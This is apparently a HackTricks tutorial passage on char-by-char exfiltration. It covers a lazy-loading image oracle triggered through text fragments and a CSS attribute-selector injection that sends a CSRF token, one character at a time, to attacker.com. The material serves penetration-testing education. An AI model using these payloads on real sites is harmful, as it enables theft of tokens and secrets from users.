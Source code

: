 


<details><summary><strong>Support HackTricks and get benefits!</strong></summary></details>


# HTML Injection / Char-by-char Exfiltration

## Image Lazy Loading

If you need to **exfiltrate content** and you can **add HTML previous to the secret** you should check the **common dangling markup techniques**.\
However, if for whatever reason you **MUST** do it **char by char** (maybe the communication is via a cache hit) you can use this trick.

**Images** in HTML has a "**loading**" attribute whose value can be "**lazy**". In that case, the image will be loaded when it's viewed and not while the page is loading:

```html
<img src=/something loading=lazy >
```

Therefore, what you can do is to **add a lot of junk chars** (For example **thousands of "W"s**) to **fill the web page before the secret**. We do this so the image is not loaded at the begging.

However, you make the **bot access the page** with something like

```
#:~:text=SECR
```

So the web page will be something like: **`https://victim.com/post.html#:~:text=SECR`**

Where post.html contains the attacker junk chars and lazy load image and then the secret of the bot is added.

What this text will do is to make the bot access any text in the page that contains the text `SECR`. As that text is the secret and it's just **below the image**, the **image will only load if the guessed secret is correct**. So there you have your oracle to **exfiltrate the secret char by char**.

Some code example to exploit this: [https://gist.github.com/jorgectf/993d02bdadb5313f48cf1dc92a7af87e](https://gist.github.com/jorgectf/993d02bdadb5313f48cf1dc92a7af87e)

## CSS Injection

### Attribute Selector

The main technique to exfiltrate information via CSS Injection is to try to **match a text with CSS** and in case that **text exist** **load some external resource, like:**

```css
input[name=csrf][value^=a]{
    background-image: url(https://attacker.com/exfil/a);
}
input[name=csrf][value^=b]{
    background-image: url(https://attacker.com/exfil/b);
}
/* ... */
input[name=csrf][value^=9]{
    background-image: url(https://attacker.com/exfil/9);   
}
```
